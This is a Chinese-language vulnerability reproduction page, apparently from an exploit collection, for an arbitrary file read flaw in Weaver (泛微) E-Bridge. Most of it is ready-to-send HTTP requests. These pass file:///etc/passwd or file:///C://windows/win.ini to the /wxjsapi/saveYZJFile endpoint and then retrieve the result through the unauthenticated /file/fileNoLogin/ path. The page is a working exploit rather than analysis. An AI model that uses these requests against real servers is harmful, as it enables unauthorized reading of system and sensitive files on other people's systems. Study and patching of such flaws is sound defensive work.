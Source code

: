 泛微 E-Bridge 云桥任意文件读取
==============================

一、漏洞简介
------------

泛微云桥（E-Bridge）是上海泛微公司在"互联网+"的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

二、漏洞影响
------------

2018-2019 多个版本。

三、复现过程
------------

### 服务器Linux：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt HTTP/1.1
    Host: www.0-sec.org:8088
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: ecology_JSessionId=abc3I_8E3ZP75a_tnGnrx; testBanCookie=test; JSESSIONID=3kqlxwz8wo04x6cs4dlaovn; EBRIDGE_JSESSIONID=3DD7A4B45D85CAE1AC75F8FF6DEB7556
    Connection: close

![1.png](./.resource/泛微E-Bridge云桥任意文件读取/media/rId25.png)

### windows服务器：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C://windows/win.ini&fileExt=txt HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=182ED2E3025C11EA9ADDC07761F56DBA
    Connection: close

![2.png](./.resource/泛微E-Bridge云桥任意文件读取/media/rId27.png)

### 读取文件

    GET /file/fileNoLogin/35acd348e86549ffb33d7f531350391e HTTP/1.1
    Host: www.0-sec.org:8088
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=BABB53753778ED19791B6F606E5B0D77
    Connection: close

**35acd348e86549ffb33d7f531350391e为上个包返回的id**

![3.png](./.resource/泛微E-Bridge云桥任意文件读取/media/rId29.png)
